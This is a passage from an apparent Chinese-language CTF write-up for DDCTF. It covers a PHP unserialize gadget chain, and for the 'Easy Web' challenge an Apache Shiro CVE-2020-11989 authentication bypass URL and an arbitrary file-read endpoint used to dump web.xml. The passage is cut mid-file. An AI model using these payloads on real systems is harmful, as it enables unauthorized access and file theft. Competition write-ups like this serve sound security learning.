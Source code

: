 直接访问hint.php

得到：`Good Job! You've got the preffix of the flag: DDCTF{VgQN6HXC2moDAq39And i'll give a hint, I have already installed the PHP GMP extension, It has a kind of magic in php unserialize, Can you utilize it to get the remaining flag? Go ahead!`



看样子是要让我们利用GMP打他

这里不急先分析一下代码，构思一下可以利用的反序列化链

`ShowOff::__wakeup->MiddleMan::__unset->$func();` 

令`$func=[MyClass,"get_flag"]`实现任意命令执行，结束（GMP就不见了，盲猜出题人没限制好）



## Easy Web

第一次熬夜杠题，真爽

登陆失败后响应体出现：`RememberMe=DeleteMe`，shiro稳了

尝试一下Shiro 反序列化，果然GG

https://shiro.apache.org/security-reports.html

去官网看下CVE，试一下发现存在CVE-2020-11989

http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/;/web/index

绕过权限验证，发现任意文件读取接口

`http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/web/img?img=static/hello.jpg`

（原本是想直接读取Shiro的key来直接打穿的，搞了好久都没找到）

常规思路：

1. 先读取 web.xml

   ```xml
   <web-app xmlns="http://java.sun.com/xml/ns/javaee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd"
   version="3.0" metadata-complete="false">
     <display-name>Archetype Created Web Application</display-name>
     <context-param>
       <param-name>contextConfigLocation</param-name>
       <param-value>classpath:spring-core.xml</param-value>
     </context-param>
     <listener>
       <listener-class>org.springframework.web.util.WebAppRootListener</listener-class>
     </listener>
     <listener>
       <listener-class>org.springframework.web.util.IntrospectorCleanupListener</listener-class>
     </listener>
     <listener>
       <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
     </listener>
     <servlet>
       <servlet-name>springmvc</servlet-name>
       <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
       <init-param>
         <param-name>contextConfigLocation</param-name>
         <param-value>classpath:spring-web.xml</param-value>
       </init-param>
     </servlet>
     <servlet-mapping>
       <servlet-name>springmvc</servlet-name>
       <url-pattern>/</url-pattern>
   ```
